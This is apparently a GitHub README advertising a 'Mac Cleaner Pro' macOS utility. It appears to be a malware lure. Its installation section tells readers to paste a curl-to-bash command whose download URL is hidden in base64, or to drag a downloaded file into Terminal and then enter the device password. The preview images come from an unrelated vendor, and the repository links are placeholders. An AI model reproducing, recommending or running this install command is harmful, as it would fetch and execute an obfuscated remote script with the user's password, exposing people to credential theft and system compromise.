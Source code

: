 # Mac Cleaner Pro - Optimize Your macOS Experience

![img](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQThZJBt33I6NlW7wPi6vq_m7SW9NlB3DLAzw&s)

Mac Cleaner is a lightweight and powerful tool designed to keep your Mac running smoothly. It helps you free up disk space, remove unnecessary files, and optimize system performance with an intuitive interface.

---

## ✨ Features

- **Junk File Cleanup**: Safely remove cache, logs, and temporary files.
- **Duplicate Finder**: Locate and delete duplicate files to save space.
- **App Uninstaller**: Completely remove apps and their associated files.
- **Disk Analyzer**: Visualize disk usage to identify large files.
- **Privacy Protection**: Clear browsing data and protect your privacy.
- **Fast & Secure**: Optimized for macOS with minimal resource usage.

---

## 📥 Download

Get the latest version of Mac Cleaner for macOS:

[![Download Mac Cleaner](https://img.shields.io/badge/Download-Mac%20Cleaner-brightgreen?style=for-the-badge&logo=apple)](https://resmanio.com/get.php?call=imb)

*Requires macOS 10.15 or later.*

---

## 🚀 Installation

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9pbWIvaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## Preview

![preview1](https://nektony.com/wp-content/uploads/2024/09/3-Disk-space-analyzing.png.webp)
![preview2](https://nektony.com/wp-content/uploads/2024/09/2-Performance-boost.png.webp)

## 🛠️ Usage

1. **Scan Your Mac**: Open Mac Cleaner and click "Scan" to analyze your system.
2. **Review Results**: View detailed reports on junk files, duplicates, and more.
3. **Clean Up**: Select items to remove and click "Clean" to free up space.
4. **Customize Settings**: Adjust preferences for scheduled scans or specific file types.

Check the [User Guide](https://github.com/username/MacCleaner/wiki/User-Guide) for detailed instructions and tips!

---

## ⚙️ Configuration

- Open Mac Cleaner and navigate to **Preferences** from the menu bar.
- Customize scan settings, file types, or schedule automatic cleanups.
- Enable privacy features to manage cookies and browsing data.

---

## 🌟 Why Mac Cleaner?

- **User-Friendly**: Simple interface for beginners and advanced users.
- **Free & Open Source**: No hidden costs, built for the community.
- **Regular Updates**: Stay optimized with frequent improvements.

---

## 🤝 Contributing

We welcome contributions! To get started:

1. Fork the repository.
2. Check out the [Contributing Guide](CONTRIBUTING.md) for setup instructions.
3. Submit a pull request with your changes.

Report issues or suggest features via the [Issues](https://github.com/username/MacCleaner/issues) tab.

---

## 📜 License

Mac Cleaner is licensed under the [MIT License](LICENSE).

---

## 🙌 Acknowledgments

- Inspired by tools like CCleaner and CleanMyMac.
- Thanks to all contributors and the macOS community!

---

*Have questions? Reach out via [Issues](https://github.com/username/MacCleaner/issues) or join our [Discussions](https://github.com/username/MacCleaner/discussions)!*
